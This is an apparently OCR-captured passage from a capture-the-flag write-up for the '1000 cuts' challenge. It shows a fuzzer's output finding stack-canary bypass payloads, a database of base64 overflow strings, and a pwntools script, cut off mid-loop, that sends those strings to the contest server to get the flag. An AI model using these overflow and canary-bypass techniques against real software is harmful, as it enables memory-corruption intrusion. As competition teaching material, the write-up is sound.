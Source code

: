 ```
print "[*] Data written to hakdb.txt"
```


```
vagrant@crs:~/cuts$ ./cuts.py 
[*] Extracting challenges...
[*] Loading all canaries...
[*] Loaded canaries for 1002 files
[*] Fuzzing all files...
[*] Fuzzing 1000_cuts/hard-stornoway-with-muhammara-on-hubuz
[*] Hacking detected at len 124
[*] Canary bypassed with payload  124 fPYv
[*] Fuzzing 666_cuts/medium-drisheen-with-twekesbury-on-cholermus
[*] Hacking detected at len 67
[*] Canary bypassed with payload  67 -qLz
[*] Fuzzing 1000_cuts/hard-oxford-with-duckefett-on-bazin
[*] Hacking detected at len 69
[*] Canary bypassed with payload  69 ilVc
[*] Fuzzing 334_cuts/easy-krakowska-with-mayonnaise-on-challah
[*] Hacking detected at len 33
[*] Canary bypassed with payload  33 gV55
[*] Fuzzing 1000_cuts/hard-haggis-with-bernaise-on-doubledown
[*] Hacking detected at len 93
[*] Canary bypassed with payload  93 7eqv
[*] Data written to hakdb.txt
vagrant@crs:~/cuts$ wc -l hakdb.txt 
1000 hakdb.txt
1000_cuts/hard-stornoway-with-muhammara-on-hubuz:['fPYvGPxCuNk=', 124, 'QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQWZQWXZDRERERERERERERERERERERERERERERERERERERERERERERAo=']
666_cuts/medium-drisheen-with-twekesbury-on-cholermus:['-qLzOEjn', 67, 'QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQS1xTHpDRERERERERERERERERERERERERERERERERERERERERERERAo=']
1000_cuts/hard-oxford-with-duckefett-on-bazin:['ilVcuWGDvztdUgVqjw==', 69, 'QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBaWxWY0NERERERERERERERERERERERERERERERERERERERERERERECg==']
334_cuts/easy-krakowska-with-mayonnaise-on-challah:['gV55iet42uI=', 33, 'QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBZ1Y1NUNERERERERERERERERERERERERERERERERERERERERERERECg==']
666_cuts/medium-snorker-with-marierose-on-potbrood:['x_SxyJe8MQ==', 80, 'QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUF4X1N4Q0REREREREREREREREREREREREREREREREREREREREREREQK']
```

Now we have our attack strings in a flat file database, we simply need to attack the server as such:

```
#!/usr/bin/python
from pwn import *
host = '1000_cuts_1bf4f5b0948106ad8102b7cb141182a2.quals.shallweplayaga.me'
port = 11000
db = [x.strip() for x in open('hakdb.txt','r').readlines()]
crashstrings = {}
for line in db:
    target,data = line.split(':',1)
    target = target.split('/')[1]
    data = eval(data)
    crashstrings[target] = data[2]
conn = remote(host,port)
banner = conn.recvline()
while True:
    target = conn.recvline()
    if 'flag' in target:
        print "[-] flag: ",target
```